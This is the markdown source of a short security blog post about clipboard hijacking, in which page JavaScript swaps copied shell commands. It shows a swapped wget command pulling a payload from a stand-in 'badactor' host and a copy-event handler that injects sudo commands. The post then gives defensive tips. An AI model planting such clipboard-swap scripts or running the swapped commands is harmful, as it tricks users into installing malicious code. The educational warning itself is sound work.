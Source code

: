 ```yaml
---
title: "Beware copy/pasting code or commands from the internet"
description: You never really know what is being added to your clipboard...
posted: 2020-10-19'
updated: "2021-03-19"
image: /assets/images/posts/arget-zvHhKiVuR9M-unsplash.jpg
status: published
---
```


Cover photo by [Arget](https://unsplash.com/@arget?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText") on [Unsplash](https://unsplash.com/)

Credit to [https://briantracy.xyz/writing/copy-paste-shell.html](https://briantracy.xyz/writing/copy-paste-shell.html) for bringing the topic/issue to my attention!

---

## The Problem

As an avid Linux user and Windows Power User where it is commonplace to copy & paste code/scripts/commands from tutorials and help sites, it always intrigues me how bad actors find ways of exploiting users in way&apos;s I haven&apos;t considered before.

An example of this from Brian Tracy is how the data you &ldquo;copy&rdquo; from a website isn&apos;t necessarily what ends up in your Clipboard for pasting!

With just a few additional lines of JavaScript/code to a website, you can make it so that when a user performs a Copy action, the actual text copied to the clipboard is not the actual text you were trying to copy.

## How does it happen?

A real-world example of this may be some lines of code for installing a package on Debian where the code is perfectly innocent (don&apos;t worry if you don&apos;t understand it – this is just for demo purposes):

```bash
wget https://github.com/tim/super-awesome-package/super-awesome-package.tar.gz
tar xvzf super-awesome-package.tar.gz
```

This code is perfectly innocent and does exactly what it says on the tin, but with this example and a bad actor in play, you could end up with something like the following actually in your Clipboard, where instead of grabbing the intended package from Github, it&apos;s actually grabbing something more sinister and renaming the asset as the intended one:

```bash
wget super-awesome-package.tar.gz https://github.com/badactor/mallicious-payload.tar.gz
tar xvzf super-awesome-package.tar.gz
```

Here is an example of how the switch can be made and the malicious code can be injected with a couple of lines of JavaScript in the webpage:

```javascript
document.querySelector('#ExampleCode').addEventListener('copy', evtCopy => {
    evtCopy.clipboardData.setData('text/plain',
        'sudo wget https://github.com/tim/super-awesome-package/super-awesome-package.tar.gz
 \n sudo tar xvzf super-awesome-package.tar.gz \n sudo another command \n echo done'
    );
    evtCopy.preventDefault();
});
```

In the above snippet, the bad actor copies the malicious code to the Clipboard, and by ending each command with a New Line `\n` character, the shell will normally execute the next line automatically and happen so quickly that you may not even spot the swap.

## Solutions?

- While it may be a drag to do so, a simple way to combat this problem would be to have a text file open that you can paste into before pasting into the console to ensure there are no extra lines of code being added or replaced.
- Another way to combat it would be to type the commands out by hand (I used to do this a lot when I first started using Linux as I found the process of typing the whole command out from scratch helped me to pick things).

If you have any ideas, suggestions or solutions to this - please get in touch and I'll add them onto my post with a credit to you! 😊
